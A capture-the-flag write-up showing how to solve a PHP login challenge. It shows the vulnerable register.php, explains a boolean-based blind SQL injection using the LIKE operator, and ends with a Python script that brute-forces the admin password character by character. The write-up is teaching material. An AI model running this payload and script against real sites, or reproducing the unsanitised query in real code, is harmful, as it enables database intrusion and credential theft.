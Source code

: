 ```php
}
?>
```
From the code, you get two information:
* The username and password parameters are sanitized, and surrounded with single quotes '', this tells you that there is no way to do an SQL injection on this page.
* The ```$FLAG``` is echo'ed when you login, therefore you need to find a way to obtain the username/password.

Now, we take a look at ```register.php```:
```php
<?php
include "config.php";
$con = mysqli_connect($MYSQL_HOST, $MYSQL_USERNAME, $MYSQL_PASSWORD, $MYSQL_DB);
$username = $_POST["register"];
$query = "SELECT * FROM users WHERE username='$username'";
$result = mysqli_query($con, $query);

if (mysqli_num_rows($result) !== 0) {
	  die("Someone has already registered " . htmlspecialchars($username));
}

die("Registration has been disabled.");
?>
```

From ```register.php```, certain things should raise some red flags immediately.
* The username parameter is not being sanitized by the mysqli_real_escape_string function.

When the mysql query returns at least 1 row, the page would return "Someone has already registered...." else, it'd show that registration has been disabled.
Using this information, we are able to first look for an username that exists in the database.

The original query is ```SELECT * FROM users WHERE username ='$username'```.
To look for a username, we can make use of the SQL LIKE operator. 
Let's manipulate the query to be ```SELECT * FROM users WHERE username ='' or username LIKE 'a%'```
To get the query to be that, the $username parameter has to be ```' or username like 'a%```, note how I did not close the last single quote.

Now, the page should return ```someone has already registered...```, that means there is a username starting with "a".

Now, we do the same thing to the second character to retrieve the full username.

You should discover that the username is 'admin'.

To obtain the password for 'admin', we'll use the same technique, but on the password field.
The query should now be ```SELECT * FROM users WHERE username = 'admin' and password like '%'```.

To make things easier, we can make use of a python script to bruteforce the password.

```python
import string
import requests

load = string.digits + string.letters
url = 'http://url/register.php'
prePassword = ""
found = False
while found == False:
	found = True
	for i in load:
		payload = {'register':'admin\' and password like \''+prePassword+i+'%'}
		r = requests.post(url, data=payload)
		print("trying %s" % (prePassword+i))
		if not "disabled" in r.content:
			print r.content
			prePassword = prePassword+i
```